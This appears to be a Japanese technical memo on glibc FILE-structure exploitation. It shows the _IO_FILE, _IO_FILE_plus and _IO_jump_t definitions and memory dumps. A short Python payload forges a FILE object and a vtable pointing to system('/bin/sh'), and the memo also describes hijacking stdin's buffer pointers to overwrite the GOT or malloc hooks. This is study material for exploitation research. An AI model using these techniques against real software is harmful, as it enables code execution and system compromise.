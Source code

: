 ファイル・ポインタや標準入出力に関連する_IO_FILE構造体を利用したexploitテクニックのメモ。

# _IO_FILE構造体とその関連

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの構造体の定義とメモリーダンプ。

* _IO_FILE
```
struct _IO_FILE {
  int _flags;           /* High-order word is _IO_MAGIC; rest is flags. */
#define _IO_file_flags _flags

  /* The following pointers correspond to the C++ streambuf protocol. */
  /* Note:  Tk uses the _IO_read_ptr and _IO_read_end fields directly. */
  char* _IO_read_ptr;   /* Current read pointer */
  char* _IO_read_end;   /* End of get area. */
  char* _IO_read_base;  /* Start of putback+get area. */
  char* _IO_write_base; /* Start of put area. */
  char* _IO_write_ptr;  /* Current put pointer. */
  char* _IO_write_end;  /* End of put area. */
  char* _IO_buf_base;   /* Start of reserve area. */
  char* _IO_buf_end;    /* End of reserve area. */
  /* The following fields are used to support backing up and undo. */
  char *_IO_save_base; /* Pointer to start of non-current get area. */
  char *_IO_backup_base;  /* Pointer to first valid character of backup area */
  char *_IO_save_end; /* Pointer to end of non-current get area. */

  struct _IO_marker *_markers;

  struct _IO_FILE *_chain;

  int _fileno;
#if 0
  int _blksize;
#else
  int _flags2;
#endif
  _IO_off_t _old_offset; /* This used to be _offset but it's too small.  */

#define __HAVE_COLUMN /* temporary */
  /* 1+column number of pbase(); 0 is unknown. */
  unsigned short _cur_column;
  signed char _vtable_offset;
  char _shortbuf[1];

  /*  char* _save_gptr;  char* _save_egptr; */

  _IO_lock_t *_lock;
#ifdef _IO_USE_OLD_IO_FILE
};

```

* _IO_FILE_plus
```
struct _IO_FILE_plus
{
  FILE file;
  const struct _IO_jump_t *vtable;
};
```

* _IO_jump_t
```
struct _IO_jump_t
{
    JUMP_FIELD(size_t, __dummy);
    JUMP_FIELD(size_t, __dummy2);
    JUMP_FIELD(_IO_finish_t, __finish);
    JUMP_FIELD(_IO_overflow_t, __overflow);
    JUMP_FIELD(_IO_underflow_t, __underflow);
    JUMP_FIELD(_IO_underflow_t, __uflow);
    JUMP_FIELD(_IO_pbackfail_t, __pbackfail);
    /* showmany */
    JUMP_FIELD(_IO_xsputn_t, __xsputn);
    JUMP_FIELD(_IO_xsgetn_t, __xsgetn);
    JUMP_FIELD(_IO_seekoff_t, __seekoff);
    JUMP_FIELD(_IO_seekpos_t, __seekpos);
    JUMP_FIELD(_IO_setbuf_t, __setbuf);
    JUMP_FIELD(_IO_sync_t, __sync);
    JUMP_FIELD(_IO_doallocate_t, __doallocate);
    JUMP_FIELD(_IO_read_t, __read);
    JUMP_FIELD(_IO_write_t, __write);
    JUMP_FIELD(_IO_seek_t, __seek);
    JUMP_FIELD(_IO_close_t, __close);
    JUMP_FIELD(_IO_stat_t, __stat);
    JUMP_FIELD(_IO_showmanyc_t, __showmanyc);
    JUMP_FIELD(_IO_imbue_t, __imbue);
};
```

_IO_FILE、_IO_FILE_plus、_IO_jump_tの3つの繋がりはこの図が分かり易い。
![glibc-file-vtable](https://user-images.githubusercontent.com/9530961/39658505-3ae004b0-5050-11e8-9826-0ba092a002fd.png)

メモリー上にどのように展開されているか理解しておく。

* stdoutの_IO_FILEメモリーダンプ
```
0x7ffff7dd4400 <_IO_2_1_stdout_>:	0x00000000fbad2887	0x00007ffff7dd4483 flags / _IO_read_ptr
0x7ffff7dd4410 <_IO_2_1_stdout_+16>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_read_end / _IO_read_base
0x7ffff7dd4420 <_IO_2_1_stdout_+32>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_base / _IO_write_ptr
0x7ffff7dd4430 <_IO_2_1_stdout_+48>:	0x00007ffff7dd4483	0x00007ffff7dd4483 _IO_write_end / _IO_buf_base
0x7ffff7dd4440 <_IO_2_1_stdout_+64>:	0x00007ffff7dd4484	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4450 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000 _IO_backup_base / _IO_save_end
0x7ffff7dd4460 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007ffff7dd4640 *_markers / *_chain 次の_IO_FILE structへのポインタ
0x7ffff7dd4470 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff _fileno / ?
0x7ffff7dd4480 <_IO_2_1_stdout_+128>:	0x000000000a000000	0x00007ffff7dd59e0 ? / *_lock
0x7ffff7dd4490 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000 
0x7ffff7dd44a0 <_IO_2_1_stdout_+160>:	0x00007ffff7dd44e0	0x0000000000000000
0x7ffff7dd44b0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd44c0 <_IO_2_1_stdout_+192>:	0x00000000ffffffff	0x0000000000000000
0x7ffff7dd44d0 <_IO_2_1_stdout_+208>:	0x0000000000000000	0x00007ffff7dd26a0 _IO_jump_tへのポインタ
```

* _IO_jump_tのメモリダンプ
```
0x7ffff7dd26a0 <_IO_file_jumps>:	0x0000000000000000	0x0000000000000000 __dummy / __dummy2
0x7ffff7dd26b0 <_IO_file_jumps+16>:	0x00007ffff7a8ac80	0x00007ffff7a8b6d0 
0x7ffff7dd26c0 <_IO_file_jumps+32>:	0x00007ffff7a8b480	0x00007ffff7a8c530
0x7ffff7dd26d0 <_IO_file_jumps+48>:	0x00007ffff7a8d6e0	0x00007ffff7a8a500
0x7ffff7dd26e0 <_IO_file_jumps+64>:	0x00007ffff7a8a210	0x00007ffff7a89870
0x7ffff7dd26f0 <_IO_file_jumps+80>:	0x00007ffff7a8caa0	0x00007ffff7a897e0
0x7ffff7dd2700 <_IO_file_jumps+96>:	0x00007ffff7a89710	0x00007ffff7a7e7b0
0x7ffff7dd2710 <_IO_file_jumps+112>:	0x00007ffff7a8a4e0	0x00007ffff7a89ed0
0x7ffff7dd2720 <_IO_file_jumps+128>:	0x00007ffff7a89cd0	0x00007ffff7a897d0
0x7ffff7dd2730 <_IO_file_jumps+144>:	0x00007ffff7a89ec0	0x00007ffff7a8d840
0x7ffff7dd2740 <_IO_file_jumps+160>:	0x00007ffff7a8d850	0x0000000000000000
```



# Exploit
* ファイル・ポインタを上書きできる場合、_IO_FILEを偽装し、_IO_jump_tに任意の関数を仕込んでおくにより、fclose(fp)などが呼ばれた時にその関数を実行できる。

下の例では、system("/bin/sh")が実行される。なお_IO_FILEのflagsに第一引数（この場合は"/bin/sh¥0"）をセットしておくことが可能。

```
    # fake _IO_FILE
    buf = "/bin/sh\0"
    buf += p(0)*16
    buf += p(0x0000000000602000) # *_lock: 有効なアドレスを入れておく、何でもよいわけじゃないらしい
    buf += p(0)*9
    buf += p(fp_addr+len(buf)+8) # _IO_file_jumpsへのアドレス
    # fake _IO_file_jumps
    buf += p(0)*2
    buf += p(system)*19
```

* stdinの_IO_buf_baseと_IO_buf_endを上書きできる場合、scanf/fgets/gets等の書き込み先をコントロールできる。

下の例だと0x62000に任意のデータを書き込める。書き込み先をGOTやfree_hook/malloc_hookにしておくことにより、one gadget rceなどを仕込むことができる。

```
0x7ffff7dd4640 <_IO_2_1_stdin_>:	0x00000000fbad208b	0x00007ffff7dd46c3
0x7ffff7dd4650 <_IO_2_1_stdin_+16>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4660 <_IO_2_1_stdin_+32>:	0x00007ffff7dd46c3	0x00007ffff7dd46c3
0x7ffff7dd4670 <_IO_2_1_stdin_+48>:	0x00007ffff7dd46c3	0x0000000000602000 _IO_write_end / _IO_buf_base
0x7ffff7dd4680 <_IO_2_1_stdin_+64>:	0x0000000000602100	0x0000000000000000 _IO_buf_end / _IO_save_base
0x7ffff7dd4690 <_IO_2_1_stdin_+80>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46a0 <_IO_2_1_stdin_+96>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd46b0 <_IO_2_1_stdin_+112>:	0x0000000000000000	0xffffffffffffffff
0x7ffff7dd46c0 <_IO_2_1_stdin_+128>:	0x0000000000000000	0x00007ffff7dd59f0
0x7ffff7dd46d0 <_IO_2_1_stdin_+144>:	0xffffffffffffffff	0x0000000000000000
0x7ffff7dd46e0 <_IO_2_1_stdin_+160>:	0x00007ffff7dd4720	0x0000000000000000
0x7ffff7dd46f0 <_IO_2_1_stdin_+176>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4700 <_IO_2_1_stdin_+192>:	0x0000000000000000	0x0000000000000000
0x7ffff7dd4710 <_IO_2_1_stdin_+208>:	0x0000000000000000	0x00007ffff7dd26a0
```

# 参考
* Play with FILE Structure - Yet Another Binary Exploit Technique https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique
* abusing the FILE structure https://outflux.net/blog/archives/2011/12/22/abusing-the-file-structure/

